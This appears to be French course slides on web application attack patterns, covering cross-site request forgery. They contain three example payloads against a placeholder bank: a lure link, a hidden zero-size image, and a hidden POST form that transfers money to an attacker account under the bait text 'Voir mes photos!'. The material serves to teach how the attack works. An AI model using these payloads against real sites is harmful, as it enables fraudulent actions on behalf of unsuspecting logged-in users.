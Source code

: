 # Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle
### CSRF

Une attaque de type CSRF implique généralement une attaque d'ingénierie sociale. L'objectif de Maria est de faire
exécuter la commande sur un utilisateur déjà connecté.

Exemple, créer une page Web et y inclure ce lien pour encourager la personne à visiter l'URL:

```html
<a href="https://bank.com/transfer?acct=MARIA&amount=100">
    Voir mes photos!
</a>
```

# Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle
### CSRF

Une autre manière serait d'ajouter une image qui pointe vers cet URL!

```html
<img src="https://bank.com/transfer?acct=MARIA&amount=100" border="0" width="0" height="0" />
```


# Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle
### CSRF

La seule différence entre une requête POST et une requête GET est comment l'attaque se fait.

```html
<form action="https://bank.com/transfer" method="POST">
<input type="hidden" name="acct" value="MARIA" />
<input type="hidden" name="amount" value="100000" />
<input type="submit" value="Voir mes photos!" />
</form>
```

# Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle
### CSRF
